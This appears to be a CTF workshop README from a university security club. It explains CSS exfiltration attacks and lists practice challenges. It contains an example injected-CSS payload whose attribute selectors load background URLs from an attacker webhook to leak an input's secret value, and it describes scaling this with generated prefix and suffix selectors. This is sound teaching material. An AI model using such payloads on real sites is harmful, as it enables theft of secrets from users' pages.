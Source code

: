 # Web 1: CSS Exfiltration Attack

### What is a CSS Exfiltration Attack?

A CSS Exfiltration Attack occurs when an attacker is able to inject CSS into a web page. While some elements on a page may be restricted from direct access, cleverly crafted CSS can be used to extract sensitive data. This is possible because certain CSS selectors and functions can indirectly leak information by triggering observable behaviors, such as generating HTTP requests. In some cases, CSS injection may also lead to JavaScript execution. Today, we are specifically focusing on the data exfiltration aspect of such attacks.

### What is a Webhook?

A Webhook is a mechanism that allows data to be sent to a unique URL when certain events occur. One way to explore this is by visiting [webhook.site](webhook.site), a service that provides you with your own unique URL. This URL is private to you, and any visits to it are logged to it. You can also send information along with each visit, such as `webhook/whatever_you_want`.

### How to perform a CSS Exfiltration Attack?
In our challenge `Style-Stealer`, we assume that a secret is stored in an element such as `<input value="secret">`. The idea is to then inject something like `[value="a"] { background: url(webhook/a); }`, which targets an HTML element with a value attribute equal to "a". If such an element exists, the browser will attempt to load a background image from `webhook/a`, effectively making a request to your webhook URL. Although there's no actual image, the request itself logs the data access. Make sure to replace `"webhook"` with your own unique webhook URL.

To expand this attack, rather than guessing exact values, you can use partial attribute selectors:

`[value^="a"]`
- `^` means first character
    - matches all HTML elements that start with "a"

`[value$="a"]`
- `$` means last character
    - matches all HTML elements that end with "a"

These allow broader probing of values without brute-forcing every possibility. For convenience and scale, it’s recommended to write a Python script with for loop(s) to automatically generate these.

## Challenges

The following challenges in increasing difficulty are deployed to [platform.acmcyber.com](https://platform.acmcyber.com) to practice the concepts covered.

- `style-stealer-1`
- `style-stealer-2`
- `style-stealer-3`
- `style-stealer-4`
- `style-stealer-5`
- `style-stealer-6`
- `style-stealer-100`

### Solving and Submitting

1. Go to the [style-stealer site](https://style-stealer.acmcyber.com/)
2. Generate your script.
3. Paste your script into the big CSS box.
4. Put your desired level into the small Level (1-6, 100)
5. Submit
6. Test
    - On the blank page, click "View style".
    - See if the letter(s) that are displayed match the letter(s) logged on your webhook.
7. Copy the URL and DM r2uwu2 on Discord.
8. Once he opens your page, you should get a visit to your webhook with the letter(s) logged there.
9. If the letters match, he will give you the flag. 

## Resources

- [webhook.site](http://webhook.site)
- [CSS Attribute Selectors](https://developer.mozilla.org/en-US/docs/Web/CSS/Attribute_selectors)
- [Blind CSS Data Exfiltration](https://medium.com/@angryovalegg/blind-css-data-exfiltration-8dd6614236b2)
- [Testing for CSS Injection](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection)


